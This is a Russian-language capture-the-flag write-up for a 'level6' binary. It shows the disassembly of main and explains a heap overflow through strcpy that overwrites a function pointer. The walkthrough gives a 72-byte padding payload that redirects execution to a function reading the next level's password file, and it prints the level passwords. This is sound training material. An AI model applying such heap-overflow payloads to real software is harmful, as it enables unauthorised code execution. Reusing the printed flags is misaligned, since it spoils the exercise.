 ## HowTo
```
su level6
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

### Инструменты:
- Ida Pro + hex rays
- peda (gdb + patterns)
- ltrace


### Анализ и ход решения

Запуск с любым аргументом дает `Nope`
```
> ./level6 aaa
Nope
```

Используем Ida Pro, получаем си-псевдокод. Ищем, что именно печатает эту строку, находим функцию `m`. 
Также находим функцию `n`, которая делает ровно то, что нам нужно - `return system("/bin/cat /home/user/level7/.pass");`
Наша задача - вызвать `n` вместо `m`

```
> disass main
   0x0804847c <+0>:	push   %ebp
   0x0804847d <+1>:	mov    %esp,%ebp
   0x0804847f <+3>:	and    $0xfffffff0,%esp
   0x08048482 <+6>:	sub    $0x20,%esp
   0x08048485 <+9>:	movl   $0x40,(%esp)
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
   0x08048491 <+21>:	mov    %eax,0x1c(%esp)
   0x08048495 <+25>:	movl   $0x4,(%esp)
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:	mov    %eax,0x18(%esp)
   0x080484a5 <+41>:	mov    $0x8048468,%edx
   0x080484aa <+46>:	mov    0x18(%esp),%eax
   0x080484ae <+50>:	mov    %edx,(%eax)
   0x080484b0 <+52>:	mov    0xc(%ebp),%eax
   0x080484b3 <+55>:	add    $0x4,%eax
   0x080484b6 <+58>:	mov    (%eax),%eax
   0x080484b8 <+60>:	mov    %eax,%edx
   0x080484ba <+62>:	mov    0x1c(%esp),%eax
   0x080484be <+66>:	mov    %edx,0x4(%esp)
   0x080484c2 <+70>:	mov    %eax,(%esp)
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:	mov    0x18(%esp),%eax
   0x080484ce <+82>:	mov    (%eax),%eax
   0x080484d0 <+84>:	call   *%eax
   0x080484d2 <+86>:	leave  
   0x080484d3 <+87>:	ret  
```

В конце исполнения вызывается нечто, хранящееся в `eax`. Это нечто - указатель, которых хранится в `eax`. 
В начале происходит выделение `4 байт`, туда кладется указатель. Затем выделяется еще `64 байта`. 
Указатель из обаслти `4 байт` копируется в область `64 байта`, после чего происходит вызов фунции по указателю.

### Решение
1. Находим адреса, которые выдают оба маллока
```
ltrace ./level6
malloc(64) = 0x0804a008
malloc(4)= 0x0804a050
```

2. Находим адрес интересующей нас функции `n`
```
> gdb ./level6
> info address n
Symbol "n" is at 0x8048454 in a file compiled without debugging.
```

Либо
```
> x n
0x8048454 <n>:	0x83e58955
```

3. Ищем оффсеты и адреса
- Путем экспериментов, находим, что нужным нам оффсет - это разница указателей маллоков
`0x0804a050 - 0x0804a008 = 72`
- адрес `n` нам известен - `0x8048454`. Дополняем и приводим к `little = \x54\x84\x04\x08`

4. Пробуем запуск с payload
**NB:** запуск вида `python -c "print 'a' * 72 + '\x54\x84\x04\x08'" - / level6` не работает. 
Гипотеза в том, что причина - в ожидании агрумента на вход. 

```
./level6 $(python -c "print 'a' * 72 + '\x54\x84\x04\x08'")
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```